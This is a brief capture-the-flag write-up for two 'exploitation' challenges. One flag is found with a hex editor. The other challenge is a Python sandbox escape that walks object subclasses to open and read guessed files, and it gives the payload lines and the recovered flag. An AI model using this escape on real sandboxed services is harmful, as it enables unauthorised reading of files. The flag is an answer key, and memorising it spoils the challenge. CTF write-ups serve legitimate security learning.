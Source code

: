 ## exploitation 100

Open in a hex editor and you will see the flag.

`flag{exploitation_is_easy!}`

## exploitation 200

There are bunch of guidelines about python sandbox escape from google. you can search on it and find your answer.

```
().__class__.__base__.__subclasses__() => find list of functions
you can just guess the file name for reading..
().__class__.__base__.__subclasses__()[??].open('flag','r').read() => fail
().__class__.__base__.__subclasses__()[??].open('key','r').read() => fail
().__class__.__base__.__subclasses__()[??].open('flag.txt','r').read() => fail
().__class__.__base__.__subclasses__()[??].open('key.txt','r').read() => success
```